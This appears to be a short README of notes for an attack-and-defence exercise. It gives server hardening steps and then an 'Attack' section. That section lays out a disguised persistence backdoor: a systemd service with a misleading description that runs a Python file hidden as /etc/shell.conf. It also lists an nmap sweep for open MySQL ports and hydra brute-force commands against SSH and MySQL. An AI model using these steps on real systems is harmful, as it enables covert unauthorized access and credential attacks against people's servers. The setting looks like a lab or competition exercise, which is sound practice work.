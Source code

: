 # Wilbur

## Change password of system users
`echo 'admin:jnjhuuinbuzeuzbcbhbhscel84786873zuhsdf' | chpasswd --crypt-method SHA512`

## Change apache
`DocumentRoot "/var/www/deathtohumanity"`

Then restart apache2 service `sudo systemctl restart apache2 `

## Disable mysql public appearance

### Update users
```
# Change passwords:
ALTER USER 'userName'@'localhost' IDENTIFIED BY 'New-Password-Here';
FLUSH PRIVILEGES;
# Drop users:
DROP USER 'jeffrey'@'localhost';

```


### Localhost only
Put following lines in `/etc/mysql/my.cnf`
```bash
[mysqld]
bind-address = 127.0.0.1
```

Then restart mysql service `sudo systemctl restart mysql `

# Attack

## Backdoor

1. Login as root
2. Place backdoor in `/etc/shell.conf`
3. Add systemctl service
    - create `/etc/systemd/system/shell.service`
        ```bash
        [Unit]
        Description=Proper shell configuration.

        [Service]
        Type=simple
        Restart=always
        RestartSec=3
        ExecStart=/usr/bin/python3 /etc/shell.conf
        Environment=PYTHONUNBUFFERED=1

        [Install]
        WantedBy=default.target
        ```
    - `systemctl enable shell`
    - `systemctl start shell`


## Find IPs with open MySQL ports
`nmap 10.6.18.0/24 -p3306 --open -oG - | awk '/Up$/{print $2}'`

## SSH
`hydra -C users.txt 10.6.18.185 ssh`

## MySQL
`hydra -C users.txt 10.6.18.185 mysql`



